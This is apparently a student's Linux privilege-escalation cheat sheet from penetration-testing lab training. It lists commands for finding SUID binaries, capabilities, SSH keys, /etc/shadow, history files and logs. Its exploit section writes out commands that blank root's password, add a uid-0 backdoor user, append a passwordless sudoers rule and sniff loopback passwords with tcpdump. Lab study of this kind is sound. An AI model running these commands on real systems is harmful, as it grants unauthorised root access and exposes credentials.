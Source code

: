 # Search
[[THM/Jr.Penetration Tester/Post/Linux Escalation/Enumeration#pivotal Find !|Find !]]
```bash
find / -perm -u=s -type f 2>/dev/null
find / -perm /2000 -type f 2>/dev/null
find / -perm -g=s -type f 2>/dev/null

find / -writable -type d 2>/dev/null
find / -perm a=x #查找可执行文件

find / -user tim 2>/dev/null
find / -group staff 2>/dev/null
# CAP
find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;
```
## Pieces
```bash
env
history
ls -lsaht |grep -i '.secret' --color=auto #root权限后
ls -lsaht |grep -i '.conf' --color=auto
#Hidden File
find / -type f -name ".*" -exec ls -l {} \; 2>/dev/null | grep <user>
find / -type d -name ".*" -ls 2>/dev/null
# Temp File
ls -l /tmp /var/tmp /dev/shm
```
## Sensitive Files for SSH:
```bash
find / -name authorized_keys 2> /dev/null
find / -name id_rsa 2> /dev/null
```
## SUID Linux Capabilities
cap_setuid, cap_net_raw...
```bash
/usr/sbin/getcap -r / 2>/dev/null
```
### Sensitive files
```bash
locate password | more

/etc/profile
/etc/passwd
/etc/group
/etc/shadow
/etc/gshadow
/var/apache2/config.inc
/var/lib/mysql/mysql/user.MYD
/root/anaconda-ks.cfg
~/.bash_history
~/.bash_profile
~/.bash_login
 ~/.nano_history
~/.atftp_history
~/.mysql_history
~/.php_history
/var/mail/


# Log FIles
/var/log
/etc/httpd
/var/www/logs
/var/log/lighttpd
/opt
## httpd

cat /var/webmin/miniserv.log
cat /etc/httpd/logs/access_log
cat /etc/httpd/logs/access.log
cat /etc/httpd/logs/error_log
cat /etc/httpd/logs/error.log

cat /var/log/httpd/access_log
cat /var/log/httpd/access.log
cat /var/log/httpd/error_log
cat /var/log/httpd/error.log

cat /var/log/apache2/access_log
cat /var/log/apache2/access.log
cat /var/log/apache2/error_log
cat /var/log/apache2/error.log
cat /var/log/apache/access_log
cat /var/log/apache/access.log

cat /var/www/logs/access_log
cat /var/www/logs/access.log

cat /var/log/lighttpd/access.log
cat /var/log/lighttpd/error.log
cat /var/log/lighttpd/lighttpd.access.log
cat /var/log/lighttpd/lighttpd.error.log
## services
ls -alh /var/lib/dhcp3/
ls -alh /var/log/postgresql/
ls -alh /var/log/proftpd/
ls -alh /var/log/samba/

cat /var/log/auth.log
cat /var/log/chttp.log
cat /var/log/cups/error_log
cat /var/log/dpkg.log
cat /var/log/faillog

cat /var/log/lastlog
cat /var/log/messages
cat /var/log/secure
cat /var/log/syslog
cat /var/log/wtmp
cat /var/log/xferlog
cat /var/log/yum.log
cat /var/run/utmp

```

Note: auth.log, boot, btmp, daemon.log, debug, dmesg, kern.log, mail.info, mail.log, mail.warn, messages, syslog, udev, wtmp
# Exploit
## Writable /etc/passwd
```bash
# 将root账户密码置空
echo -e ':%s/^root:[^:]*:/root::/\nwq!' | /usr/bin/vim.basic -es /etc/passwd
cat /etc/passwd | head -n1
# root::0:0:root:/root:/bin/bash  [x]没有了！

#插入一个新的root2用户
openssl passwd w00t
echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd
su root2
```
## Modify /etc/sudoers
```bash
echo "<username> ALL=(root) NOPASSWD: ALL" >> /etc/sudoers
```
## suid/cap
[GTFObins](https://gtfobins.github.io/#)
### sudoer
```bash
sudo -l              #查看是否有tcpdump的sudo权限

sudo tcpdump -i lo -A | grep "pass"
cat /var/log/syslog | grep tcpdump  #查看提权操作时，该二进制文件做了什么
```